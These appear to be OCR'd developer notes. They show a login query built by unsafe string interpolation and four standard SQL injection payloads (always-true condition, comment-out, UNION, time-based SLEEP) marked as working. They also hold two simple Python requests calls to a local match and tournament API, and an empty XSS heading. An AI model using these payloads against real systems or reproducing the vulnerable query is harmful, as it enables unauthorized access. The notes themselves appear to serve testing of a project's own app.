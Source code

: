 # XSS





# Injection SQL

"SELECT * FROM users WHERE username = '$username' AND password = '$password'";


✅
username: ' OR '1'='1
password: anything

✅
username: admin' --
password: anything

✅
username: ' UNION SELECT null, 'hacked', null --
password: anything

✅
username: ' OR IF(1=1, SLEEP(5), 0) --
password: anything






--------------------------------------------------------------------------------
									DB
--------------------------------------------------------------------------------


```python

import requests

url = 'http://databaseapi:8007/api/match/'
data = {
    'player1': 5,
    'player2': 3,
    'winner': 3,
}

response = requests.post(url, json=data)
print(response.status_code)
print(response.json())

```



```python

import requests

url = 'http://databaseapi:8007/api/tournament/'

response = requests.get(url)
print(response.status_code)
print(response.json())

```
